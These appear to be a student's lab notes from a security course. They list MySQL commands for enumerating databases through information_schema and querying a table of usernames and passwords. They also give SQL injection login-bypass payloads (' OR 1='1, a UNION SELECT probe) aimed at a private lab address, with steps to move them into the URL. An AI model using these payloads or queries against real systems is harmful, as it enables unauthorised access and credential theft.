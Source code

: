 # Commands



```
mysql
> help
> show databases ;
> use information_schema ; 
> show tables ;
> show columns from columns ;
> select table_schema,table_name,column_name from information_schema.columns ;
   * Golden Statement ^
> use session ;
> show tables ;
> show tables from session ;
  * when not using a specific database 
> select username,passwd,studentID from session.userinfo ;
> select name,cost,color from session.car ; 
> select name,size,cost from session.Tires
>
>
>
>

```


## default databases:
information_schema: the database that holds all the information pertaining to all the databases.
mysql
performance_schema



## Data structures we will be interacting with:
databse
tables
columns 

----------------------------------------------------------------------------------------------------------

  SQL Injection Validation Exercise ()
http://10.50.36.14


```
' OR 1='1

{}' OR 1='1
```

```

{}' UNION SELECT 1,2,3,4 #
```
* insert both into the input fileds:
  - User:
  - Pass:

* Inspect the page
  - Network
    - POST request
      - Request

* Append the the value in the request filed to the end of the URL:
  ex:
```
  http://10.50.36.14/login.php
  + username=%27+OR+1+%3D%271&passwd=%27+OR+1+%3D%271
  so...
 http://10.50.36.14/login.php?username=%27+OR+1+%3D%271&passwd=%27+OR+1+%3D%271
```


